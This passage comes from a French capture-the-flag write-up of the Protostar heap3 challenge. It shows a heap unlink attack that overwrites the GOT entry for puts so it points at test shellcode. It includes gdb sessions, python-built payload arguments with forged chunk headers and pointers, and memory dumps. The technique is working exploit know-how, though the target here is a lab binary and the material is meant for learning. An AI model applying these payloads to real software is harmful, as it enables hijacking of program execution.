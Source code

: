 On a bien un write-what-where qui correspond à la copie du `BK` dans `FD->BK`.

Maintenant il nous faut les adresses nécessaires à la résolution du challenge. Une fois les deux appels à `free()` passés, le programme utilise `puts()`. On va donc écraser l'adresse de `puts` dans la `GOT` pour quelle pointe sur du code à nous.

```
$ gdb -q ./heap3 
Reading symbols from /opt/protostar/bin/heap3...done.
(gdb) p puts
$1 = {<text variable, no debug info>} 0x8048790 <puts@plt>
(gdb) x/i 0x8048790
0x8048790 <puts@plt>:   jmp    *0x804b128
(gdb) p winner
$3 = {void (void)} 0x8048864 <winner>
```

Malheureusement comme dit plus tôt on ne peut pas simplement écrire l'adresse de `winner` car sinon `malloc` va tenter d'écrire à `winner+8`...

A la place on va y écrire l'adresse `0x804c00c` qui est une adresse des données du premier chunk où l'on placera un petit shellcode. Pour tester on va y placer l'instruction sigtrap qui sera attrapée par le débogueur :

```
(gdb) r `python -c 'print "\xCC" * 16'` `python -c 'print "B"*32 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`
Starting program: /opt/protostar/bin/heap3 `python -c 'print "\xCC" * 16'` `python -c 'print "B"*32 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`

Program received signal SIGSEGV, Segmentation fault.
0x08049921 in free (mem=0x804c058) at common/malloc.c:3643
3643    common/malloc.c: No such file or directory.
        in common/malloc.c
(gdb) x/wx 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:   0x0804c00c <- l'adresse de puts correspond à notre shellcode
(gdb) x/36wx 0x804c000
0x804c000:      0x00000000      0x00000029      0xcccccccc      0xcccccccc <- notre shellcode commence sur ces 4 derniers octets
0x804c010:      0xcccccccc      0x0804b11c      0x00000000      0x00000000 <- malloc a écrasé l'adresse du shellcode + 8 (écriture de FD)
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c040:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c050:      0xfffffff0      0xfffffff0      0x43434343      0x43434343
0x804c060:      0x43434343      0x43434343      0x0804b11c      0x0804c00c
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
```

Victoire ! On a bien écrasé la `GOT` et en contrepartie `malloc` a bien écrit à `0x804c00c + 8`. Seulement on n'a pas l'exécution de code espérée mais encore un segfault.
